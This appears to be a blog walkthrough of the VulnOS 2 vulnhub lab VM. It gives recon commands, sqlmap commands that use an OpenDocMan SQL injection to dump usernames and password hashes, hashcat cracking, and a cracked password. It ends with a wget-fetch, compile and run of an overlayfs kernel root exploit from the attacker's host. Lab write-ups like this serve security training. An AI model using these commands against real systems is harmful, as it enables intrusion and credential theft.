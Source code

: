 ```yaml
---
layout: post
title: "vulos2"
date: 2016-07-20 13:36:54 -0500
comments: true
categories: [vulhub]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* sqlmap
* hash-identifier 


###Vulnerability:
* [OpenDocMan 1.2.7 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/32075/)
* [Linux Kernel 3.13.0 < 3.19 'overlayfs' Local Root Shell](https://www.exploit-db.com/exploits/37293/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/vulos2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.56.104 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.104 -p-`


{% img  /images/blog/vulhub/vulos2/Selection_002.png   [title manually exploit [alt text]] %}

port 22, 80 and 6667 are opening.

use wfuzz to scan. Nothing interesting.

use Niko to scan. Same.


Check the webpage, looks like a link may be useful.

{% img  /images/blog/vulhub/vulos2/Selection_003.png   [title manually exploit [alt text]] %}

Double click it.

{% img  /images/blog/vulhub/vulos2/Selection_004.png   [title manually exploit [alt text]] %}

Exam the links. In `Document`, I found this:

{% img  /images/blog/vulhub/vulos2/Selection_005.png   [title manually exploit [alt text]] %}

Looks like path `/jabcd0cs/` is available.


go to  `http://192.168.56.104/jabcd0cs/`, I found the app is OpenDocMan v1.2.7. 

{% img  /images/blog/vulhub/vulos2/Selection_006.png   [title manually exploit [alt text]] %}

`searchsploit opendocman`

{% img  /images/blog/vulhub/vulos2/Selection_007.png   [title manually exploit [alt text]] %}

got the exploit. Try the sql injection vulnerability:

{% img  /images/blog/vulhub/vulos2/Selection_008.png   [title manually exploit [alt text]] %}

```
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level=5 --risk=3
```

{% img  /images/blog/vulhub/vulos2/Selection_009.png   [title manually exploit [alt text]] %}

Now I know the database type is MySQL.

Next try to dump all table names

```
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --tables --dbms=mysql
```


{% img  /images/blog/vulhub/vulos2/Selection_010.png   [title manually exploit [alt text]] %}

looks like `odm_user` is the table I want to take a look at.

now dump columns from table `odm_user`


`sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -T odm_user  --columns --dbms=mysql`


{% img  /images/blog/vulhub/vulos2/Selection_011.png   [title manually exploit [alt text]] %}

looks like `username` and `password`

now time to dump all content from `username` and `password`,

`sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -C username,password --dump --dbms=mysql`

{% img  /images/blog/vulhub/vulos2/Selection_012.png   [title manually exploit [alt text]] %}

use hash-identifier to detect hash type

{% img  /images/blog/vulhub/vulos2/Selection_013.png   [title manually exploit [alt text]] %}

looks like they are MD5.

use hashcat to crack it

`hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

{% img  /images/blog/vulhub/vulos2/Selection_014.png   [title manually exploit [alt text]] %}

only guest's password is cracked.

Find a very good website to crack MD5 online http://md5cracker.org/, get the cracked password `webmin1980` for user webmin, and login:

{% img  /images/blog/vulhub/vulos2/Selection_015.png   [title manually exploit [alt text]] %}

not very helpful.

Try to ssh to the box using webmin

{% img  /images/blog/vulhub/vulos2/Selection_016.png   [title manually exploit [alt text]] %}


get the bash:

`python -c 'import pty; pty.spawn("/bin/bash")'`

first check the os version

`uname -a`

{% img  /images/blog/vulhub/vulos2/Selection_017.png   [title manually exploit [alt text]] %}


`searchsploit 3.13.0`

{% img  /images/blog/vulhub/vulos2/Selection_018.png   [title manually exploit [alt text]] %}

try this exploit

in Kali:

```
cp /usr/share/exploitdb/platforms/linux/local/37292.c /var/www/html/.
service apache2 restart

```

in target:

```
wget http://192.168.56.101/37292.c .
gcc 37292.c -o 37292
./37292
```

{% img  /images/blog/vulhub/vulos2/Selection_019.png   [title manually exploit [alt text]] %}

DONE







